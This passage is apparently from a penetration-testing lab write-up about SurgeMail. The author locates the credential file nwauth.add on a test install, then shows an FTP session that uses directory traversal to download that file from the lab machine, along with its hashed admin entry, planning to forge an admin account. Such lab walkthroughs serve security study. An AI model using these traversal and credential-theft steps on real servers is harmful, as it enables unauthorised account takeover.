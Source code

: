 I downloaded the installer file (*which was still possible when I was connected to the lab*) and installed it on a test box.  During the installation of surgemail on my test box, I created an admin account (user: admin/ password: admin) and tried to find the file where the admin username/password was stored.  I discovered that credentials get stored into a file called nwauth.add

[![image](../../../_resources/b5961c77134f46c3a6f909b756503f0b.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image55.png)

So let’s see if we can use this to get ourselves an admin account in surgemail on the lab machine… Maybe the hashing/encoding of the password will work for any account (no salt etc).

Still connected via FTP, I downloaded the nwauth.add file from the server

```
250 Directory changed to "/MyDocuments/....../....../....../......".
ftp> cd surgemail
250 Directory changed to "/MyDocuments/....../....../....../....../surgemail".
ftp> get nwauth.add
local: nwauth.add remote: nwauth.add
200 PORT command successful.
150 Opening BINARY mode data connection for nwauth.add
226 Transfer complete.
227 bytes received in 0.00 secs (152.9 kB/s)
ftp> bye
221 Goodbye.

root@krypt2:/vpn/70# cat nwauth.add
n00b@killthen00b:{ssha}floeVmRUcb7ku3ChQzBdC4acP3ugCInK:created="1272891311" 
mailaccess="" mailstatus="" admin_access="" quota="" expire="0" full_name="" 
max_in="" phone="" smsto="" user_access="" alias_quota="" list_quota=""
```
